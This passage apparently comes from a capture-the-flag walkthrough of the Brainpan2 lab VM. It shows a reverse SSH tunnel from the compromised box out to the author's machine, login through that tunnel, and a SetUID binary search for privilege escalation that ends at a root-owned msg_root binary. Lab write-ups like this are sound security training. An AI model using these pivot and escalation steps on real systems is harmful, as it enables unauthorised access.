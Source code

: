 Now, I just had to figure out a way to access the '127.0.1.1:2222' port from my MacBook, so I could get a real SSH connection. I managed to use a reverse SSH tunnel to complete this. But first, I had to use a trick g0tmi1k taught me, to get a shell that would respond better.

```
anansi@brainpan2:/opt/brainpan$ ssh mandreko@192.168.1.136 -R 9876:127.0.1.1:2222
<pan$ ssh mandreko@192.168.1.136 -R 9876:127.0.1.1:2222
Password:<redacted>

Last login: Wed Nov 20 16:44:34 2013
```

Now, in a third terminal window, I was able to SSH in.

```
➜  ~  ssh anansi@localhost -p 9876
Linux brainpan2 3.2.0-4-686-pae #1 SMP Debian 3.2.51-1 i686

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Nov  5 09:13:28 2013
anansi@brainpan2:~$
```

I figured the next step would be to escalate my privileges, so I started looking for programs that were SetUID, meaning that when they ran, they ran under the privileges of the user that owned them. I found one, in another user's home folder, which I was conveniently able to view.

```
anansi@brainpan2:~$ find / -perm -u=s -type f 2>/dev/null
/usr/sbin/exim4
/usr/bin/chfn
/usr/bin/passwd
/usr/bin/chsh
/usr/bin/procmail
/usr/bin/gpasswd
/usr/bin/at
/usr/bin/newgrp
/usr/lib/pt_chown
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/bin/umount
/bin/ping
/bin/mount
/bin/ping6
/bin/su
/home/reynard/msg_root
anansi@brainpan2:~$ cd /home/reynard
anansi@brainpan2:/home/reynard$ ls -al
total 44
drwxr-xr-x 3 reynard reynard 4096 Nov  7 09:54 .
drwxr-xr-x 5 root    root    4096 Nov  4 10:57 ..
-rw------- 1 reynard reynard    0 Nov  7 09:54 .bash_history
-rw-r--r-- 1 reynard reynard  220 Nov  4 10:57 .bash_logout
-rw-r--r-- 1 reynard reynard 3392 Nov  4 10:57 .bashrc
-rwsr-xr-x 1 root    root    8999 Nov  6 17:10 msg_root
-rw-r--r-- 1 reynard reynard  675 Nov  4 10:57 .profile
-rw-r--r-- 1 reynard reynard  154 Nov  5 23:20 readme.txt
-rwxr-xr-x 1 reynard reynard  137 Nov  4 19:59 startweb.sh
drwxr-xr-x 3 reynard reynard 4096 Nov  4 19:32 web
```
